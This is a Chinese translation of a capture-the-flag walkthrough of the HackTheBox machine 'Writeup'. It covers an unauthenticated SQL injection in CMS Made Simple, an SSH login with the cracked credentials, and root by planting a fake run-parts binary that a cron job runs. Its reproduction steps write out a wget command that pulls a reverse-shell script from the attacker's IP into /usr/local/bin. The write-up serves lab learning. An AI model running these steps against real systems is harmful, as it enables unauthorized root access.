# 写 HackTheBox 写

> 原文：<https://infosecwriteups.com/writeup-hackthebox-writeup-3c86bf40853b?source=collection_archive---------0----------------------->

## Writeup 本周退休，是一个非常简单的盒子，有一个有趣的技巧。我将从在`robots.txt`文件中找到一个不允许的条目开始。在访问被禁止的条目时，我看到了一个看起来像是用一个叫做`CMS Made Simple`的 CMS 托管的网站。该 CMS 有一个未经验证的 sqli 漏洞，我们通过利用 sqli 获取密码。我们使用从漏洞中找到的密码 SSH 到机器中，从而使用 cronjob 找到它。

信息卡

# 列举

像往常一样，让我们从 Nmap 扫描开始



我们有两个港口开放 22 ( `**SSH**`)和 80 ( `**HTTP**`)

# 80 — HTTP



查看`**robots.txt**` 文件，我们有一个不允许的条目
**/writeup**



robots.txt 文件

让我们看看在“/ `writeup`”中有什么。我运行了 gobuster，它没有返回任何有用的信息，因为这个盒子有反 DoS 功能。

## /writeup 目录



**/撰写页面**

点击各种链接，直接浏览受尊敬的机器。我在检查网页源代码时发现了一个有趣的现象，那就是它使用的`**CMS**` 。



CMS 变得简单

快速的`[**goole search**](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)`给了我们有趣的结果。看来我们有一个未经认证的 SQL 注入，可以转储密码哈希。漏洞开发者也很友好地破解了这个杂凑。

 [## CMS 做了简单的 SQL 注入

### 信息安全服务、新闻、文件、工具、漏洞、咨询和白皮书

packetstormsecurity.com](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html) 

在那里！我们已经得到了所有的细节。因为端口 80 没有任何登录页面，而且 SSH 是打开的，所以让我们尝试使用上面找到的凭证登录 SSH。

# 作为 JKR 的 Shell



# root 权限

有趣的是，用户`**JKR**`属于`**STAFF (50)**`组。

> **staff** :允许用户在不需要 root 权限的情况下对系统(/usr/local)添加本地修改(注意/usr/local/bin 中的可执行文件在任何用户的 PATH 变量中，它们可能会“覆盖”同名的/bin 和/usr/bin 中的可执行文件)。与“adm”组相比，它与监控/安全更相关。

这个许可可能对我们有用。PSPY 向我们展示了一个有趣的过程。



每次用户通过 SSH 登录时，都会有一个由 root 运行的进程为该用户设置路径，而`**run-parts**` **二进制文件在这里有一个本地路径(而不是/usr/local/bin/run-parts)。因为我们是 group
STAFF 的一部分，所以我们可以将自己的 run-parts 二进制文件放在/usr/local/bin 中。下次当新用户登录时，cron 会执行我们自己的** `**run-parts**` **，我们可以在这里做任何事情。**

让我们在`**/usr/local/bin/run-parts**`放一个反壳



如果我们再次登录 SSH，我们会得到一个反向的 shell。



获得根壳

复制步骤:

> **>*wget***[***http://10 . 10 . 15 . 144/shell . py***](http://10.10.15.144/shell.py)***-O/usr/local/bin/run-parts
> >chmod+x/usr/local/bin/run-parts
> >确保添加那个语言的 shebang(这里是 python)。
> >在新的终端再次登录进入 SSH，并得到你的逆向 shell*** *。*



“shell.py”的内容

就这样扎根了。

感谢和快乐的黑客，
Preetham。

# 额外的

## Cron 作业

**sh-c/usr/bin/env-I PATH =/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin run-parts—lsbsysinit/etc/update-motd . d>/run/motd . dynamic . new**

update-motd 由 UNIX/Linux 系统管理员使用，他们通常通过在/etc/motd 文件中维护文本来与控制台和远程用户交流重要信息，这些文本由交互式 shell 登录上的 [**pam_motd**](http://manpages.ubuntu.com/manpages/trusty/man8/pam_motd.8.html) (8)模块显示。

> /etc/update-motd.d/*中的可执行脚本由 [**pam_motd**](http://manpages.ubuntu.com/manpages/trusty/man8/pam_motd.8.html) (8)作为根用户在
> 每次登录时执行，这些信息连接在/var/run/motd 中。脚本
> 的执行顺序由 [**运行部分**](http://manpages.ubuntu.com/manpages/trusty/man8/run-parts.8.html) (8) — lsbsysinit 选项决定(基本上是按字母顺序
> 执行，有一些注意事项)。

这个机器还有另一个 cronjob，它每 3 分钟清理一次/usr/local/bin /usr/local/sbin。



*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

 [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)